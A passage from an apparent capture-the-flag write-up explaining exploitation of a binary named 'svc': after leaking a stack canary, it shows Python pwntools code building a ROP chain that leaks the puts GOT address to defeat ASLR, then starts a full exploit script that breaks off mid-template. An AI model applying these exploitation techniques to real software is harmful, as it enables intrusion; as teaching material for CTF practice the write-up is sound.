 **Note: the binary was behaving weird, but adding sleeps between sending and receiving data fixed it**  
Now that we know the canary we can start redirecting control flow of the program.  
We still have the problem of no syscall and NX bit, so we have to `ret2system`  to gain a shell.  
However, we need a way to bypass ASLR.  
Since PIE is disabled we can use a very common technique to print a `GOT` entry using the `PLT` entry of `puts()`. I won't go into detail as to why this works, but these tables are related to dynamic linking.  

```python
payload_base = b'A' * buffer_len + p64(canary) + b'B'* padding_len

rop = ROP(exe)
POP_RDI = rop.find_gadget(['pop rdi','ret'])[0]
main_addr = 0x00400a96
payload = payload_base + p64(POP_RDI) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(main_addr)

io.sendline(b'1')
io.send(payload)
sleep(0.1)
io.sendline(b'3')

io.recvuntil(b'TIME TO MINE MIENRALS...\n')
puts_leak = int.from_bytes(io.recvline()[:-1],'little')
log.success("leaked address of puts at "+hex(puts_leak))
```

Now we can just `ret2system`, the same as in [babyboi](DynamicLinking/csaw19_babyboi.md)

### Putting it all together
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template svc
from pwn import *
from time import sleep
# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'svc')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
```
